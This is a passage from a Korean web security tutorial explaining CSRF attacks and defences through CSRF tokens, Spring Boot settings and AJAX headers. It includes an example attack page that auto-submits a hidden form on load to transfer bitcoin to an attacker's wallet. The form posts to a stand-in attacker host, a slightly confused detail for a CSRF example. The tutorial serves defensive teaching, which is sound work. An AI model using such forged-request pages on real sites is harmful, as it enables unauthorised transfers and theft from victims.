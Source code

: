 POST 요청만 허가된 경우는 조금 복잡해집니다. 먼저 다음과 같은 공격용 페이지를 준비하고 서버에 올립니다. 그 후, 피해자를 공격용 페이지에 접속시킴으로써 공격을 수행합니다.

```xml
<!DOCTYPE html>
<html>
  <head>
    <script src="jquery.js"></script>
    <script>
      function attack(){
        document.forms[0].submit();
      }
    </script>
  </head>
  <body onload="attack();">
    <form method="post" action="http://attacker.com/api/send">
      <input type="hidden" name="bitcoin" value="10">
      <input type="hidden" name="address" value="attackerWallet">
      <input type="submit" value="전송">
      </form> 
  </body>
</html>
```
피해자가 해당 페이지에 액세스(Access)하는 순간, JavaScript가 실행되어 `api/send` 에 비트코인 10개과 `attackerWallet` 주소가 송신됩니다.

> 취약성의 설명을 위해 웹 브라우저의 SOP(Same Origin Policy)가 없다고 가정합니다.

# 방어 방법(Mitigation)
## Security Token(CSRF Token) 사용
CSRF 공격을 막기 위해서는, CSRF Token를 활용합니다.

CSRF Token은 임의의 난수 값으로 이루어져 있습니다. 서버 측에서는, 이 난수 값을 유저마다 저장해 두고, 클라이언트로부터 리퀘스트가 송신되어 왔을 때에 CSRF Token 값이 일치하는지 검증합니다.

많은 Web 개발 체제에는 CSRF에 대한 방어 기능이 짜넣어지고 있기 때문에, 이것을 적절히 활용하는 것이 중요합니다. 아래 예시와 같이 Token 사용이 활성화 되어 있는지 확인하여 주세요.

- 서버 측 예시: SpringBoot
SpringBoot 프레임워크에서는 기본적으로 활성화되어 있습니다. 그러나 `.csrf() .disable();`와 같은 코드를 이용해 의도적으로 CSRF 방어 기능을 무효로 할 수는 있습니다. CSRF 방어 기능을 무효로 하고 있지 않은지 확인해 주세요.

- 클라이언트 측 예시: AJAX
모든 AJAX 요청에서 CSRF Token을 HTTP 헤더에 삽입하고, 요청하는 함수를 작성하여 활용할 수 있습니다.

CSRF Token을 페이지의 meta태그로 포함할 수 있습니다.

```xml
<meta name="_csrf" content="${_csrf.token}"/>
<meta name="_csrf_header" content="${_csrf.headerName}"/>
```
그리고 AJAX 요청 함수에서 meta 태그에서 CSRF Token 헤더를 검색해 추가합니다.

```javascript
$(document).ajaxSend(function(event, request, settings) {
    request.setRequestHeader($("meta[name='_csrf_header']").attr("content"), $("meta[name='_csrf']").attr("content"));
});
```
